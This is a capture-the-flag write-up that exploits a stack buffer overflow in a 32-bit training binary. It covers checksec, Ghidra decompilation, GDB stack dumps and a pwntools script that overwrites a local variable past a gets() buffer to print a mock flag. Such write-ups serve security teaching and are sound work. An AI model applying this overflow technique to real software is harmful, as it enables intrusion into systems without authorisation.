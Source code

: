 Let's start by looking at the  binary protections: 

```
mfumega@pwn-boy:/pwn-boy$ file pwn1
pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
mfumega@pwn-boy:/pwn-boy$
mfumega@pwn-boy:/pwn-boy$ pwn checksec pwn1
[*] '/pwn-boy/pwn1'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

From this checksec output, we get the following info: 

- Full RELRO: Global Offset Table (GOT) is read only, preventing GOT overwrite attacks.
- No canary found: This means that we can overwrite the return address easily, because there is no canary here. (More on this later on future challenges)
- NX Enabled: Non-Executable stack, meaning that we cannot run shellcode directly on the stack.
- PIE enabled: Position Independant Executable. This means that ASLR applies to the binary itself, meaning its base address is randomized.

So, knowing this, we will now run the binary to see what happens.

```
mfumega@pwn-boy:/pwn-boy$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
AAAA
I don't know that! Auuuuuuuugh!
```

Ok, not so useful. Let's open it on Ghidra to see what's happening. 

```
undefined4 main(void)

{
  int iVar1;
  char local_43 [43];
  int local_18;
  undefined4 local_14;
  undefined1 *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(_stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(local_43,0x2b,_stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,_stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```
Before looking at the general behaviour of the binary, we can tell that there is this line `gets(local_43)`. This means that the input grabbed with `gets` will be placed at a variable with a size of 43 bytes.
The problem here is that this function does not validate the size of the input at the time of storing it into a variable, making the program vulnerable to a stack buffer overflow. 

This said, let's break down what the program is doing.

By looking at the main() function, we see that it first asks for our input and compare it with the string "Sir Lancelot of Camelot", at the line `iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");`.

After that, it will do the same, but against another string. This time "To seek the Holy Grail.". 

And then, finally, it will validate if a varuable stored at "local_18" is equal to "-0x215eef38". 

The idea here is to input first the 2 strings that the program is waiting for, and then overflow the buffer, to overwrite the value of a variable (local_18) to match the target value, and then be able to reach the call to `print_flag()` function. 

Let's run the program in GDB to see how is the stack conformed after we grab our input with `gets`.

I've inputted "AAAA" and hit the breakpoint. Here we can see the instruction we stoped at, as well as the stack. 

```
   0x565558aa <main+0131>      call   0x56555520 <gets@plt>
 → 0x565558af <main+0136>      add    esp, 0x10
   0x565558b2 <main+0139>      cmp    DWORD PTR [ebp-0x10], 0xdea110c8
   0x565558b9 <main+0140>      jne    0x565558c2 <main+329>
   0x565558bb <main+0142>      call   0x565556fd <print_flag>
   0x565558c0 <main+0147>      jmp    0x565558d4 <main+347>
   0x565558c2 <main+0149>      sub    esp, 0xc
────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn1", stopped 0x565558af in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565558af → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/30wx $esp
0xffffcec0:     0xffffcedd      0x56555a63      0xf7fa0620      0x00000000
0xffffced0:     0x00000000      0x00000000      0x01000000      0x41414109
0xffffcee0:     0x6b650041      0x65687420      0x6c6f4820      0x72472079
0xffffcef0:     0x2e6c6961      0xf7fd000a      0xf7d8e4be      0xf7fbe4a0
0xffffcf00:     0xffffcf40      0xf7fbe66c      0x00000000      0x00000002
0xffffcf10:     0xffffcf30      0xf7fa0000      0xf7ffd020      0xf7d97519
0xffffcf20:     0xffffd1b4      0x00000070      0xf7ffd000      0xf7d97519
0xffffcf30:     0x00000001      0xffffcfe4
```

And wee see out 4 'A', starting at 0xffffcedd. 

After the call to gets, we see a "add" instruction, adn then the "cmp". This is the C line that compares the value on the variable [ebp-0x10] against 0xdeall0c8. 
We can see where the variable is stored, as well as it's value by doing the following:

```
gef➤  p $ebp-0x10
$5 = (void *) 0xffffcf08
gef➤  p *0xffffcf08
$6 = 0x0
```

This is the address of the variable, and it's content, which is 0. 

So, our input starts at 0xffffcedd, and the target variable is at 0xffffcf08, meaning we must input 43 bytes until thatvariable. Let's input 43 'A' and 4 'B' to check this.

```
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x565558af in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcedd  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"
$ebx   : 0x56556fb0  →  0x00001eb8
$ecx   : 0xf7fa19c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffffcec0  →  0xffffcedd  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"
$ebp   : 0xffffcf18  →  0xf7ffd020  →  0xf7ffda40  →  0x56555000  →   jg 0x56555047
$esi   : 0xffffcfe4  →  0xffffd1b4  →  "/pwn-boy/pwn1"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x565558af  →  <main+0136> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcec0│+0x0000: 0xffffcedd  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"     ← $esp
0xffffcec4│+0x0004: 0x56555a63  →  "To seek the Holy Grail.\n"
0xffffcec8│+0x0008: 0xf7fa0620  →  0xfbad2288
0xffffcecc│+0x000c: 0x00000000
0xffffced0│+0x0010: 0x00000000
0xffffced4│+0x0014: 0x00000000
0xffffced8│+0x0018: 0x01000000
0xffffcedc│+0x001c: "\tAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"
────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565558a6 <main+012d>      lea    eax, [ebp-0x3b]
   0x565558a9 <main+0130>      push   eax
   0x565558aa <main+0131>      call   0x56555520 <gets@plt>
 → 0x565558af <main+0136>      add    esp, 0x10
   0x565558b2 <main+0139>      cmp    DWORD PTR [ebp-0x10], 0xdea110c8
   0x565558b9 <main+0140>      jne    0x565558c2 <main+329>
   0x565558bb <main+0142>      call   0x565556fd <print_flag>
   0x565558c0 <main+0147>      jmp    0x565558d4 <main+347>
   0x565558c2 <main+0149>      sub    esp, 0xc
────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn1", stopped 0x565558af in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565558af → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p *0xffffcf08
$9 = 0x42424242
```

We've succesfully overwrite the variable with the 4 'B', or in hex 0x42424242. So, we now should put the target value '0xdea110c8' to get the flag. Let's do it with pwntools.

```
#!/usr/bin/env python3
from pwn import *
p = process('/pwn-boy/pwn1')

# Offset
offset = 43
target_value = 0xdea110c8

# Send the first 2 correct answers
p.sendline('Sir Lancelot of Camelot')
p.sendline('To seek the Holy Grail.')

# Prepare the payload
payload = b'A' * offset
payload += p32(target_value)

# Send and capture the response
p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1')
``` 

Let's make the exploit executable, and run it.

```
mfumega@pwn-boy:/pwn-boy$ chmod +x do.py
mfumega@pwn-boy:/pwn-boy$ ./do.py
[+] Starting local process '/pwn-boy/pwn1': pid 320560
[+] Receiving all data: Done (211B)
[*] Process '/pwn-boy/pwn1' stopped with exit code 0 (pid 320560)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
local{mock_flag}
```

And we got the flag! 
